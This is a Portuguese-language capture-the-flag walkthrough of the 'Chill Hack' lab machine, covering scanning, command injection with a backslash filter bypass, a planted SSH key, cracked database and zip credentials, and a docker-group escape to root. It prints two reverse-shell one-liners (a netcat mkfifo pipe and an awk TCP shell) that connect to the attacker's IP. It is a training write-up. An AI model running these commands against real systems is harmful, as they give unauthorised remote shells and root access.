# _**Chill Hack CTF**_


## _**Enumeração**_
Primeiro, começamos com um scan Nmap
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```  
  

Vamos, primeiro, realizar login no serviço _ftp_ e verificar _note.txt_  

  

Estranho, não me diz muita coisa
Vamos continuar com um scan Gobuster para verificar diretórios escondidos
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Disocvery/Web-content/common.txt
> ```  
  

Temos alguns diretórios que podemos explorar
Vamos começar com o que chama mais a atenção, <mark>/secret</mark>  

  

Execução de comandos
Vamos tentar alguns  

  

Vamos verificar se ele <mark>executa/possui python</mark>  

  

É, parece que não
Vamos com ```sudo -l```  

  

Temos um script que pode ser executado por nós sem requisição de senha!  
Vamos tentar com o comando abaixo
> ```bash
> sudo -u apaar /home/apaar/.helpline.sh
> ```  
  

Parece que sim. Vamos tentar algo a mais  
Após muitas tentativas, foi descoberto que o comando ```echo *``` pode ser executado e é executado antes de <mark>/home/apaar/.helpline.sh</mark>  

  

Mas acaba por não ser tão útil  
Tentamos também ```find```, funciona normalmente, mas não podemos fazer muito  
Outro comando é ```wget```  
Criamos um script ```.sh``` para tentarmos obtermos um _shell reverso_  
Realizamos upload via _http server_ com python  
Damos permissão de execução  
Mas ainda assim, não pode ser executado  

Outros comandos como ```ls, cat, sh``` e python não são executados  
Um script está rodando no background impedindo a consulta destas palavras, quase que como um firewall  
Ainda assim, alguns comandos passam  
Outra tentativa foi com ```awk```, poderíamos tentar algo  
No fim, acabei por desistir e fui procurar a solução para essa parte na Internet, e temos duas muito boas!  

## _**Ganhando acesso**_

A primeira envolve o uso de (\) para realizar um _bypass_ do filtro  
E a segunda envolve uma longa string de comandos com ```awk```  
Irei mostrar como realizar ambas abaixo  

<mark>A primeira:</mark>
Testando ```l\s -la```, conseguimos burlar o filtro
Buscando como podemos criar um shell reverso a partir disto, temos o seguinte trecho de código
> ```bash
> r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip_address] [port] >/tmp/f
> ```


Isso claro, requer a troca do endereço IP e a porta, além de termos o netcat na nossa máquina atacante

<mark>A segunda</mark>  
Como o comando ```awk``` é executado, podemos criar um pequeno script para ser executado antes e dentro de BEGIN, junto de ```awk```  
Basta apenas configurar o endereço IP e a porta da máquina  
E claro, neste também precisamos do ```netcat```  
> ```bash
> awk 'BEGIN {s = "/inet/tcp/0/<machine_ip>/<port>"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null  
> ```
  

Vamos continuar  
Após obter esse shell reverso, precisamos estabilizar ele  
Verificando, temos a versão do python e podemos usar o comando abaixo para isso
> ```bash
> python3 -c 'import pty; pty.spawn("/bin/bash")'
> ```

Ou alternativamente, temos também ```/dev/null```  
Voltando ao nosso arquivo lá do início, <mark>/home/apaar/.helpline.sh</mark>, vamos executar ele novamente e digitar ```/bin/sh``` nas duas vezes  
Verificando o id, temos agora que somos <mark>apaar</mark>  

  

Aquele arquivo, <mark>local.txt</mark> é um arquivo muito específico  
Verificando com ```cat``` (agora podemos usar), temos nossa primeira flag, a _flag de usuário_

Vamos continuar  
Primeiro, podemos melhorar a _shell_  
Vamos criar uma _chave ssh_ com o comando 
> ```bash
> ssh-keygen -t rsa -f apaar
> ```  
  

Copiando o conteúdo de _apaar.pub_ para _authorized_keys_ na nossa máquina-alvo  

  

Na nossa máquina atacante, alteramos as permissões de <mark>apaar</mark> e em seguida, realizamos login via ssh na máquina-alvo
> ```bash
> ssh -i apaar apaar@[ip_address]
> ```  
  

Login feito com sucesso  
Após vasculhar e verificar muitos arquivos, um chamou atenção, especificamente em <mark>/var/www/files</mark>  
Temos _**hacker.php**_, _**index.php**_, _**account.php**_  
Verificando cada um, vemos algo de interessante  

  

Uma senha de login _root_ para um banco de dados  
Mas a questão é, onde fica esse banco de dados  
No scan nmap não foi apontado nenhum serviço do tipo SQL  
Perguntando ao GPT, temos alguns comandos que podemos usar na máquina-alvo para verificar se existe um serviço SQL ativo, já que tudo indica como _localhost_  

  

Parece que temos algo na porta 3306, típica porta utilizada para serviços MySQL  
Vamos realizar login
> ```bash
> mysql -h localhost -u root -p'!@m+her00+@db' webportal
> ```  
  

Vasculhando o banco de dados, temos o seguinte  

  

Usando crackstation, obtemos as duas senhas  

  

Agora, podemos realizar login como Anurodh ou Apaar  
Tentando via ssh e até mesmo no próprio terminal, nada funcionou  
Voltamos para o início  
Verificando novamente os arquivos que estão em <mark>/var/www/files</mark> para ver se não foi deixado algo para trás  

  

Não consta nos arquivos que visitamos anteriormente via web  
Para baixar, vamos usar um servidor python como antes  
Primeiro, iniciamos com:
> ```bash
> python3 -m http.server [port]
> ```

Após, um:
> ```bash
> wget http://[ip_address]:[port]/images/hacker-with-laptop_23-2147985341.jpg wget
> ```  
  

Vamos usar steghide para tentar extrair seu conteúdo
> ```bash
> steghide extract -sf [image_name].jpg
> ```  


Vamos usar agora <mark>John</mark> para quebrar esse zip e ter acesso ao seu conteúdo  



E temos nosso resultado: <mark>unzip backup.zip</mark>  
Um arquivo de nome _**source_code.php**_  
Verificando seu conteúdo com ```cat```, temos algo interessante  
Uma senha base64. Vamos decodificar  

  

Temos a senha!  
Agora sim, podemos tentar (novamente) realizar login como <mark>anurodh</mark>  

  

Com sucesso!

## Escalando privilégios e _docker escape_

Um pouco de busca por flags, mas nada foi encontrado
Verificando o _**id**_, vemos que somos parte de um _docker_  

  

Essa parte também fui buscar na Internet, como fazer para escapar de dentro de um docker chegando neste   
Vamos executar o comando abaixo para escapar do docker  
> ```bash
> docker run -v /:/mnt --rm -it alpine chroot /mnt sh
> ```  
  

Com sucesso!
Agora, só buscar em _/root_ a nossa flag (e de brinde, um lindo banner)  

  
